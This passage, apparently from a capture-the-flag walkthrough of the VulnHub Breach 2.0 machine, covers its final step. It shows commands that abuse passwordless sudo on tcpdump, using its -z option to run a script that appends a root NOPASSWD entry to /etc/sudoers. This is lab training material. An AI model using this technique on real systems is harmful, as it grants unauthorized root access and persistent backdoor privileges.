 ### Sudo Permissions

Then I check for sudo permissions, blembergh can execute tcpdump as sudo.

```console
blumbergh@breach2:/$ sudo -l
sudo -l
Matching Defaults entries for blumbergh on breach2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User blumbergh may run the following commands on breach2:
    (root) NOPASSWD: /usr/sbin/tcpdump
```

Next what I did was send the user blumbergh to the sudoers group to execute the bash command as root without providing password via tcpdump tool, for more information you can check it [here](https://pure.security/how-i-got-root-with-sudo/).

```console
blumbergh@breach2:/$ echo $'id\necho "blumbergh ALL=(ALL) NOPASSWD: /bin/bash" >> /etc/sudoers' > /dev/shm/r00t 
blumbergh@breach2:/$ chmod +x /dev/shm/r00t 
blumbergh@breach2:/$ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /dev/shm/r00t -Z root
dropped privs to root
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
Maximum file limit reached: 1
blumbergh@breach2:/$ uid=0(root) gid=0(root) groups=0(root)

blumbergh@breach2:/$ sudo /bin/bash
root@breach2:/# cd
root@breach2:~# python .flag.py
python .flag.py


#========================================================================================#
# ___                                               ___                                  #
#(   )                                             (   )                                 #
# | |.-.    ___ .-.      .--.     .---.    .--.     | | .-.       .--.             .-.   #
# | /   \  (   )   \    /    \   / .-, \  /    \    | |/   \     ;  _  \         /    \  #
# |  .-. |  | ' .-. ;  |  .-. ; (__) ; | |  .-. ;   |  .-. .    (___)` |        |  .-. ; #
# | |  | |  |  / (___) |  | | |   .'`  | |  |(___)  | |  | |         ' '        | |  | | #
# | |  | |  | |        |  |/  |  / .'| | |  |       | |  | |        / /         | |  | | #
# | |  | |  | |        |  ' _.' | /  | | |  | ___   | |  | |       / /          | |  | | #
# | '  | |  | |        |  .'.-. ; |  ; | |  '(   )  | |  | |      / /      .-.  | '  | | #
# ' `-' ;   | |        '  `-' / ' `-'  | '  `-' |   | |  | |     / '____  (   ) '  `-' / #
#  `.__.   (___)        `.__.'  `.__.'_.  `.__,'   (___)(___)   (_______)  `-'   `.__,'  # 
#                                                                                        #
#========================================================================================#


Congratulations on reaching the end. I have learned a ton putting together these challenges and I hope you enjoyed it and perhaps learned something new. Stay tuned 
for the final in the series, Breach 3.0

Shout-out to sizzop, knightmare and rastamouse for testing and g0tmi1k for hosting and maintaining #vulnhub.

-mrb3n
```


